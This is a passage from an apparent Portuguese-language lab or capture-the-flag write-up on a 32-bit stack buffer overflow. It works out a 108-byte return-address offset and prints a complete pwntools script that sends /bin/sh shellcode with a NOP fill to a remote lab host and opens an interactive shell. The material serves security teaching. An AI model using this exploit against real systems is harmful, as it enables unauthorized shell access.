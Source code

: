 contatou-se que o *ebp* está 104 *bytes* acima de `buffer[0]`. Assim, e dado que o
*return address* se encontra imediatamente acima do *ebp* basta adicionar 4
(versão de 32 *bits*) ao 104:
```py
offset = 108
```

Assim, e alterando um *script* em *python* usado anteriormente, chegou-se ao seguinte *script* alterado:

```py
#!/usr/bin/python3
import sys
from pwn import *

LOCAL = False

if LOCAL:
    p = process("./program")
else:    
    p = remote("10.227.243.188", 4001)


p.recvuntil(b"Your buffer is ")
line = p.recvline()
num = int(line[2:10], 16)
p.recvuntil(b"input:")

##################################################################

# Replace the content with the actual shellcode
shellcode= (
  "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f"
  "\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31"
  "\xd2\x31\xc0\xb0\x0b\xcd\x80"
).encode('latin-1')

# Fill the content with NOP's
content = bytearray(0x90 for i in range(112)) 

##################################################################
# Put the shellcode somewhere in the payload
start = 0               # Change this number 
content[start:start + len(shellcode)] = shellcode

# Decide the return address value 
# and put it somewhere in the payload
ret    = num         # Change this number 
offset = 108	     # Change this number 

L = 4     # Use 4 for 32-bit address and 8 for 64-bit address
content[offset:offset + L] = (ret).to_bytes(L,byteorder='little') 

##################################################################

print(bytes(content))
p.sendline(bytes(content))
p.interactive()
```
